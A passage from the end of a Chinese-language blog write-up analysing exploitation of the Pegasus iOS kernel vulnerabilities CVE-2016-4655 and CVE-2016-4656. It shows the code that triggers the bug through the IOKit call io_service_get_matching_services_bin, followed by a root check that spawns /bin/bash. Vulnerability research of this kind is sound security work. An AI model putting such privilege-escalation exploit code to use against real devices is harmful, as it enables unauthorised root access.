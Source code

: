 最后我们就可以用跟之前的信息泄漏相同的代码来触发这个漏洞啦：

<table><tbody><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div><div class="line">3</div><div class="line">4</div><div class="line">5</div></pre></td><td class="code"><pre><div class="line">host_get_io_master(mach_host_self(), &amp;master); <span class="comment">// get iokit master port</span></div><div class="line"></div><div class="line">kr = io_service_get_matching_services_bin(master, (<span class="keyword">char</span> *)dict, idx, &amp;res);</div><div class="line"><span class="keyword">if</span> (kr != KERN_SUCCESS)</div><div class="line">    <span class="keyword">return</span>;</div></pre></td></tr></tbody></table>

没有意外的话，我们将提升我们的权限。为了检测一切是否运行正常，我们简单调用 getuid 函数然后查看它的返回值是否等于0。如果是的话，那么你的进程就已经是 root 权限了，所以简单的调用 system\(“/bin/bash”\) 来执行 shell 吧！

<table><tbody><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div><div class="line">3</div><div class="line">4</div></pre></td><td class="code"><pre><div class="line"><span class="keyword">if</span> (getuid() == <span class="number">0</span>) {</div><div class="line">    <span class="built_in">puts</span>(<span class="string">"(+) got r00t!"</span>);</div><div class="line">    system(<span class="string">"/bin/bash"</span>);</div><div class="line">}</div></pre></td></tr></tbody></table>

最后，一切正常运行之后，我们的 shell 将会长这样！

![](/images/2016-12-16-译-Analysis-and-exploitation-of-Pegasus-kernel-vulnerabilities-CVE-2016-4655-CVE-2016-4656/图3.png)

## 总结

这确实是一篇非常长的阅读（对于我来说，也是一次非常长的写作！）。非常感谢你读到这，我认真地希望你能找到这些的乐趣所在。这也是我的第一篇博客文章，还没有写过这么多，如果你在阅读的过程中发现有些粗糙的地方，还请见谅。

